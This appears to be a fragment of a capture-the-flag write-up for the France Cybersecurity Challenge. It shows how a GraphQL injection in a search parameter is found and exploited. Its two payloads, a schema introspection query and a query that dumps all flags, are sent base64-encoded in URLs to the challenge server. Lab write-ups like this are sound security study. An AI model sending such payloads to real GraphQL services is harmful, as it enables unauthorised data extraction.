 Identify the injection: 
Payload : {__schema{types{name}}}

```powershell http://challenges2.france-cybersecurity-challenge.fr:5006/index.php?search=e19fc2NoZW1he3R5cGVze25hbWV9fX0= ```

Exploit the injection:
Payload: { allFlags{nodes{flag}}}
```powershell http://challenges2.france-cybersecurity-challenge.fr:5006/index.php?search=eyBhbGxGbGFnc3tub2Rlc3tmbGFnfX19```

